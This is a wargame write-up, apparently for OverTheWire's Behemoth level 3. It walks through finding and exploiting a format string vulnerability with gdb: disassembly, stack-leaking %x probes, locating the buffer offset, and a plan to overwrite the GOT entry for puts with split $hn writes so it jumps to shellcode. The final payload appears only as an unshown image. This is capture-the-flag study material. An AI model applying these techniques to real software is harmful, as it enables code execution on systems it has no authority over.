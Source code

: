 #Behemoth 3

learned skills: write to arbitrary memory address, %n - write the numbers of chracter written, writing the value separately using $hn 

This challenge helped me to learn a lot about different ways to control format string vulnerability.

When I frist examined the binary, I thought of buffer overflow (well hopefully but least likely...)

```
behemoth3@melinda:/behemoth$ gdb behemoth3 -q
Reading symbols from behemoth3...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb)
```
well.... fgets.... No buffer overflow :( 
There is printf. Maybe this is format vuln. Lets test it .

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: %x.%x.%x.%x
Welcome, c8.f7fcac20.0.0

aaaand goodbye again.
[Inferior 1 (process 6538) exited normally]
(gdb)
```

Oh dear printfl,!Now lets figure out where our buffer is.

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x
Welcome, AAAAc8.f7fcac20.0.0.f7ffd000.41414141.252e7825.78252e78.2e78252e

aaaand goodbye again.
[Inferior 1 (process 4016) exited normally]
(gdb)	
```

So it was located at 6th position. 

After that I checkd where the buffer was located after fgets

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb) b*0x080484b2
Breakpoint 1 at 0x80484b2
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x

Breakpoint 1, 0x080484b2 in main ()
(gdb) x /40wx $esp
0xffffd5e0:	0xffffd5f8	0x000000c8	0xf7fcac20	0x00000000
0xffffd5f0:	0x00000000	0xf7ffd000	0x41414141	0x252e7825
0xffffd600:	0x78252e78	0x2e78252e	0x252e7825	0x08000a78
0xffffd610:	0xffffd678	0xf7ffda94	0x00000000	0xf7fce2e8
0xffffd620:	0x00000001	0x00000000	0x00000001	0xf7ffd938
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000003	0x00000009	0x04c0003f	0x00000000
0xffffd650:	0xffffd704	0xffffd678	0xffffd670	0x08048262
0xffffd660:	0xf7ffd938	0x00000000	0x000000c2	0xf7eb75b6
0xffffd670:	0xffffffff	0xffffd69e	0xf7e2fbf8	0xf7e55f53
(gdb) p 0xffffd5f0+8
$3 = 4294956536
```
In hex, 4294956356 = 0xffffd5fc 

(This was not necessary but I just wanted to see where it was :) )

At this point, I realized that I could overwrite GOT for put and point that to the shellcode.
But there was a problem. Since it was DWORD, I could not write it all at the same time. So I had to spearte into two parts:

First write two lower bytes and then two higher bytes

Here is the final payload:

![Behemoth 3](Photos/Behemoth3.png) 

*To find the address to jump to, I used the paylaod by just writing 6 and 7 characters respecitvely and chose middle of 'A' (junk)
*To write two bytes at a time, I used $hn for short write and simple math (literally typing 0x + last twobytes into python shell and same for higher bytes) 

![Behemoth 3](Photos/Behemoth3-1.png) 

From this point forward, it was trial and error. Even though shell was executed, it seems like it was either not visible or some other problem. So I had to repeat the process until it gave me the shell.


